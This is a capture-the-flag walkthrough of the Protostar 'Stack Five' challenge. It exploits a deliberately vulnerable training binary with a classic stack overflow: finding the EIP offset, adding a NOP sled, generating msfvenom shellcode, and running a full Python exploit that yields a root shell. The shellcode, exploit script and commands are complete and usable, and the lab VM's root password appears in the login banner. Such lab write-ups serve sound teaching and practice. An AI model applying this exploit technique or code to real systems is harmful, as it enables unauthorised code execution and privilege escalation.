

#Protostar - Stack Five
https://exploit.education/protostar/stack-five/
NOTE: I'm exploiting stack5 on the protostar VM, not on my attacking system

This challenge is a classic stack overflow.
We overflow the buffer, write shellcode to the stack, and execute it.
The tricky part of this challenge is jumping to the shellcode you've dropped.
For a classic stack overflow, you need:
• the offset to EIP
• the address of your shellcode
• shellcode
◇ Refer here for pre-written shellcode - http://shell-storm.org/shellcode/
◇ Or use msfvenom to generate your own
First things first, find the offset to EIP to overflow the buffer.
1) Find EIP offset
SSH into your protostar VM with the credentials user / user (or just access it locally), and open the stack5 binary in gdb.
┌─[root@parrot]─[/ctf/exploit-education/protostar]
└──╼ #ssh user@192.168.1.72
PPPP RRRR OOO TTTTT OOO SSSS TTTTT A RRRR
P P R R O O T O O S T A A R R
PPPP RRRR O O T O O SSS T AAAAA RRRR
P R R O O T O O S T A A R R
P R R OOO T OOO SSSS T A A R R
http://exploit-exercises.com/protostar
Welcome to Protostar. To log in, you may use the user / user account.
When you need to use the root account, you can login as root / godmode.
[...]
$ cd /opt/protostar/bin
$ gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb)
On your attacking machine, generate a cyclic pattern using msf-pattern_create.
On Kali this is located at /usr/share/metasploit-framework/tools/pattern_create.rb
┌─[root@parrot]─[/ctf/exploit-education/protostar]
└──╼ #msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Back in gdb, run the binary and submit the cyclic pattern.
The binary should crash.
(gdb) run
Starting program: /opt/protostar/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
The stack has been overflowed and EIP has been overwritten with 0x63413563, which is part of our cyclic pattern.
Submit the contents of EIP to msf-pattern_offset.
This will tell us the offset at which EIP gets overwritten.
┌─[root@parrot]─[/ctf/exploit-education/protostar]
└──╼ #msf-pattern_offset -q 0x63413563
[*] Exact match at offset 76
Great!
The offset to overwrite EIP is 76,
which means that we need to write 76 bytes of junk to overflow the buffer.
Don't close gdb!
2) Find shellcode address
Next, we need to find the address of where our shellcode will be once it's written to the stack.
Still in gdb, examine the registers at the time of the crash.
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) info registers
eax 0xbffffc70 -1073742736
ecx 0xbffffc70 -1073742736
edx 0xb7fd9334 -1208118476
ebx 0xb7fd7ff4 -1208123404
esp 0xbffffcc0 0xbffffcc0
ebp 0x41346341 0x41346341
esi 0x0 0
edi 0x0 0
eip 0x63413563 0x63413563
[...]
ESP stands for Extended Stack Pointer.
The ESP register points to the top of the stack.
At the time of the crash, ESP is pointing to 0xbffffcc0, which is just after the end of the buffer we've overflown.
Payload Structure v1
If we overflow the buffer, overwrite EIP with 0xbffffcc0, and then write our shellcode to the stack; we should get code execution.
Our payload structure would look like this:
(pseudo code example, not actually usable)
payload = "A"*76 # overflow buffer
payload += 0xbffffcc0 # overwrite EIP and jump to top of the stack
payload += shellcode # write shellcode to stack
NOP Sled
However, to give us some leniency in case our shellcode doesn't exactly start at address 0xbffffcc0 (which it definitely won't), we can build a NOP sled.
NOP is an x86 assembly instruction - \x90 - which stands for NO OPERATION.
NOP does nothing.
Before your shellcode, you write a large sequence of NOPs to the stack.
If you return to a sequence of NOPs, the CPU will do nothing, and ride the NOP sled all the way down to your shellcode.
Payload Structure v2
Now with the NOP sled in use, our payload structure will look like this
(again, this is pseudo code)
payload = "A"*76 # overflow buffer
payload += 0xbffffcc0 # overwrite EIP and jump to top of the stack
payload += NOP * 100 # write NOP sled to stack - 100 bytes long
payload += shellcode # write shellcode to stack
At this point, we have the offset to EIP and the memory address of our shellcode to jump to.
The last thing to do is generate some shellcode.
3) Generate shellcode
You could use some pre-written shellcode from http://shell-storm.org/shellcode/ to spawn a shell (like this http://shell-storm.org/shellcode/files/shellcode-811.php) , or you could generate your own using msfvenom.
I used msfvenom.
┌─[root@parrot]─[/ctf/exploit-education/protostar]
└──╼ #msfvenom -p linux/x86/exec CMD="/bin/sh" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of python file: 257 bytes
shellcode = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7"
shellcode += b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89"
shellcode += b"\xe3\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e"
shellcode += b"\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80"
4) Write exploit
At this point, we have everything we need to write our exploit.
Overview
• The offset to EIP is 76 bytes.
• Our shellcode address is 0xbffffcc0
We use struct.pack('<I', to pack the memory addresses in 32-bit little endian format.
Final Exploit Code
My final exploit code is here:
#!/usr/bin/python
# exploit.education - Stack Five
import struct
# msfvenom -p linux/x86/exec CMD="/bin/sh" -f python -v shellcode
# 43 bytes
shellcode = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7"
shellcode += b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89"
shellcode += b"\xe3\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e"
shellcode += b"\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80"
bufferSize = 76
esp = struct.pack('<I', 0xbffffcc0)
nops = "\x90"
payload = "A"*bufferSize # overflow buffer
payload += esp # jump to top of stack
payload += nops*100 # nop sled
payload += shellcode # shellcode
print payload
5) Win
Because we're spawning a shell, we need to halt the program with cat so that we can interact with the spawned shell.
Otherwise, the shell would spawn but the binary would quit immediately.
$ (python /tmp/stack5.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
Success!
We've successfully written shellcode to the stack and executed it, and we're root :)